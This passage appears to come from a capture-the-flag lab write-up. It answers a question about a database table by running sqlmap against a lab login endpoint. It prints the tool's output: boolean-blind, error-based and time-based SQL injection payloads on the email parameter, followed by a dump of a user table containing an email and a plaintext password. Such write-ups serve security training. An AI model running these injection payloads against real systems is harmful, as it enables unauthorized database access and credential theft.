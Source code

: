 **Question 2**
What is the name of the table available in the "ai" database?

**Answer:** `user`

```shell
root@ip-10-10-129-125:~# sqlmap -u 'http://10.10.32.196/ai/includes/user_login?email=test&password=test' -D ai -T user --dump --level=5
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:49:02 /2025-10-16/

[18:49:02] [INFO] resuming back-end DBMS 'mysql' 
[18:49:02] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: email=test' AND 4324=(SELECT (CASE WHEN (4324=4324) THEN 4324 ELSE (SELECT 7054 UNION SELECT 8357) END))-- UyNy&password=test

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=test' OR (SELECT 8539 FROM(SELECT COUNT(*),CONCAT(0x716b717171,(SELECT (ELT(8539=8539,1))),0x717a707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JTnW&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test' AND (SELECT 7937 FROM (SELECT(SLEEP(5)))Judt)-- YLPd&password=test
---
[18:49:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:49:02] [INFO] fetching columns for table 'user' in database 'ai'
[18:49:02] [INFO] retrieved: 'id'
[18:49:03] [INFO] retrieved: 'int(11)'
[18:49:03] [INFO] retrieved: 'email'
[18:49:03] [INFO] retrieved: 'varchar(512)'
[18:49:03] [INFO] retrieved: 'password'
[18:49:03] [INFO] retrieved: 'varchar(512)'
[18:49:03] [INFO] retrieved: 'created'
[18:49:03] [INFO] retrieved: 'timestamp'
[18:49:03] [INFO] fetching entries for table 'user' in database 'ai'
[18:49:03] [INFO] retrieved: '1'
[18:49:03] [INFO] retrieved: '12345678'
[18:49:03] [INFO] retrieved: '2023-02-21 09:05:46'
[18:49:03] [INFO] retrieved: 'test@chatai.com'
Database: ai
Table: user
[1 entry]
+------+-----------------+---------------------+------------+
| id   | email           | created             | password   |
+------+-----------------+---------------------+------------+
| 1    | test@chatai.com | 2023-02-21 09:05:46 | 12345678   |
+------+-----------------+---------------------+------------+
```